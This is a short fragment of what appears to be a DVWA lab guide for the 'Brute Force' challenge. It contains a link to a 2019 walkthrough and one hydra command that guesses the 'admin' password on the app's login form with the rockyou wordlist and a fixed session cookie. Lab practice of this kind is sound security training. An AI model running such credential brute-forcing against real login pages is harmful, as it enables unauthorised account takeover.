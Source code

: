 Low / Medium
https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2001:%20Brute%20Force.md

```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=5r9mcj6pgqd910hrlr6l4is0tk"
```
